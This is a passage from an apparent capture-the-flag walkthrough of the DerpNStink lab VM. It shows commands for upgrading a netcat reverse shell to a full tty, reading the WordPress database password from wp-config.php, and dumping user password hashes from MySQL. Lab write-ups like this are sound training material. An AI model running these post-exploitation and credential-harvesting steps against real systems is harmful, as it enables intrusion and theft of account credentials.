 For a proper tty, i executed the following:

```bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
</html/weblog/wp-content/uploads/slideshow-gallery$ 

</html/weblog/wp-content/uploads/slideshow-gallery$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                       
┌──(root💀kali)-[~/vuln/derpnstink]
└─# stty raw -echo; fg                                                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

</html/weblog/wp-content/uploads/slideshow-gallery$ 
</html/weblog/wp-content/uploads/slideshow-gallery$ 
</html/weblog/wp-content/uploads/slideshow-gallery$ export TERM=xterm
www-data@DeRPnStiNK:/var/www/html/weblog/wp-content/uploads/slideshow-gallery$
```

Since wordpress requires database, I started with a hunt for creds to access the MySQL database.

```bash
www-data@DeRPnStiNK:/var/www/html/weblog$ cat /var/www/html/weblog/wp-config.php
[snip]
/** The name of the database for WordPress */                                                                                          
define('DB_NAME', 'wordpress');                                                                                                        
                                                                                                                                       
/** MySQL database username */                                     
define('DB_USER', 'root');                                         

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');
[snip]
```

I accessed the database using the leaked wordpress credentials from the config file.

```bash
www-data@DeRPnStiNK:/var/www/html/weblog$ mysql -u root -p
mysql> select user_login,user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |
| admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |
+-------------+------------------------------------+
2 rows in set (0.00 sec)
```
